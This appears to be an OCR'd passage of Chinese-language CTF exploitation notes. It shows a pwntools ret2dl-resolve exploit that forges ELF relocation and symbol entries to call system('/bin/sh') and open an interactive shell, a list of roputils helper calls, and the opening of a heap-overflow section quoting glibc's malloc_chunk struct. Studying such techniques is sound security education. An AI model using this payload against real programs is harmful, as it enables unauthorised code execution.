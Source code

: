 ```
plt_0 = 0x08048380
st_name  = base_stage + 80 - dynstr_addr
fake_reloc_addr = base_stage + 20
fake_sym_addr = base_stage + 28

reloc_index = fake_reloc_addr - rel_plt_addr
align = 0x10 - ((fake_sym_addr - dynsym_addr) & 0xf)
fake_sym_addr += align 
dynsym_index = (fake_sym_addr - dynsym_addr) / 0x10
r_info = dynsym_index << 8 | 0x7
fake_reloc = p32(write_got) + p32(r_info)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)
sh_addr = fake_sym_addr + 0x10

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(reloc_index)
payload2 += 'AAAA'
payload2 += p32(sh_addr)
payload2 += fake_reloc
payload2 += 'B' * align
payload2 += fake_sym
payload2 += '/bin/sh' + '\x00'
payload2 += (80 - len(payload2)) * 'A'
payload2 += 'system' + '\x00'
payload2 += (100 - len(payload2)) * 'A'
io.sendline(payload2)

io.interactive()
```

#####Roputils
>1. ```rop.fill(len)填充至return address```
>2. ```rop.raw(str)填充```
>3. ```rop.migrate(addr)迁移栈```
>4. ```rop.call(func_addr_or_name, args[])执行函数调用```
>5. ```rop.dl_resolve_call(stack_addr_of_plt_0,args[])调用plt_0```
>6. ```rop.string(str)填充字符串rop.fill()填充至stack_addr_of_plt_0```
>7. ```rop.dl_resolve_data(stack_addr_of_plt_0,fake_func_name)填充fake reloc&sym```
...

#堆溢出

###malloc_chunk
```
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```
